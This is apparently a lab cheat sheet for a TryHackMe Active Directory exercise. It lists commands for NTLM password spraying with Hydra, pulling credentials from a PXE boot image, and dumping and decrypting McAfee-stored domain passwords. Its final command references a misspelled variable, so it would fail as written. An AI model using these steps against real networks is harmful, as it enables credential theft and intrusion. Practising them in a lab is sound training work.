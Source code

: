 # Using Hydra to Brute-force NTLM
```
hydra -I -V -L ./usernames.txt -p 'Changeme123' ntlmauth.za.tryhackme.com http-get '/:A=NTLM:F=401'
```
# Pretend You're a PXE Client
```
tftp -i (Resolve-DnsName thmmdt.za.tryhackme.com).IPAddress GET "\Tmp\x64{BFA810B9-DF7D-401C-B5B6-2F4D37258344}.bcd" conf.bcd
```
# Analyze the boot image
```
Import-Module .\powerpxe\PowerPXE.ps1
$bcdfile = "conf.bcd"
Get-WimFile -bcdFile $bcdfile

$wimfile = '\Boot\x64\Images\LiteTouchPE_x64.wim'
$mdtserver = (Resolve-DnsName thmmdt.za.tryhackme.com).IPAddress
tftp -i $mdtserver GEt "$wimfile" pxeboot.wim

Get-FindCredentials -WimFile .\pxeboot.wim
```

# Secure Copy the File
```
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db ma.db
```
# SQLite
```
sqlite3 ./ma.db

.tables

.schema AGENT_REPOSITORIES

SELECT DOMAIN, AUTH_USER, AUTH_PASSWD FROM AGENT_REPOSITORIES;

.quit
```

# Sqlitebrowser
```
sqlitebrowser ./ma.db &
```
# Reverse the encrypted password
```
encrypted_pw='jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q=='
python2 ./mcafee-sitelist-pwd-decryption-master/mcafee_sitelist_pwd_decrypt.py $encryped_pw
```

